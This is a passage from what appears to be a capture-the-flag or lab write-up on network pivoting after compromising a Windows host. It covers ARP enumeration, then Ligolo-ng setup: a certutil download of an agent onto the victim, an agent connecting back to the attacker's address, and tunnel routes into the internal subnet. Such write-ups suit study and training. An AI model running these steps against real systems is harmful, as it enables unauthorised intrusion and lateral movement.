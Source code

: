     ![](https://cdn-images-1.medium.com/max/1000/1*fUPdu4h4SMLUqvqXg1slqA.png)

To further enumerate, we checked the **ARP cache** using `arp -a`, which revealed DNS A (Host) record of previously communicated hosts, including the next target

![](https://cdn-images-1.medium.com/max/1000/1*kN9YPIrNaV-GgDRq_Pef_g.png)

### Pivoting using `Ligolo-ng`

Using Ligolo-ng we need [Linux Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz) and [Windows Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_windows_amd64.zip)

1. start the Proxy
    ```bash
    ./proxy -selfcert -laddr 0.0.0.0:443
    ```
2. Upload the windows agent 
    ```
    certutil -urlcache -split -f http://IP/agent.exe    
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*zntDNXr2jpJdhCWbCKu2Gw.png)
3. Start our agent to connect back to pur proxy

    Using `-retry` Ensures that the agent will keep attempting to reconnect if the connection drops or if the listener is temporarily unavailable. This improves reliability, especially in unstable environments.

    ```bash
    .\agent.exe -ignore-cert -connect 10.10.16.39:443 -retry
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*ycBEQ0JH6jgpFPP-5dYlFQ.png)
4. Setting Up the Tunnel Interface


    To establish a tunnel for routing traffic to the internal network, we create a virtual interface. This step is crucial after pivoting to a compromised host using Ligolo, enabling access to the internal subnet. This allows us to route our traffic to the target's internal network via the Ligolo tunnel directly from terminal without setting up any proxychains.

    ```bash
    sudo ip tuntap add user $(whoami) mode tun ligolo
    sudo ip link set ligolo up
    sudo ip route add 192.168.99.0/24 dev ligolo
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*1zrk0Q7HKCteCy9dDf8ClA.png)
5. Start tunnel
    ```bash
    session
    [enter]
    start
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*X3q-pJmL5sUSYF67aYjl1Q.png)
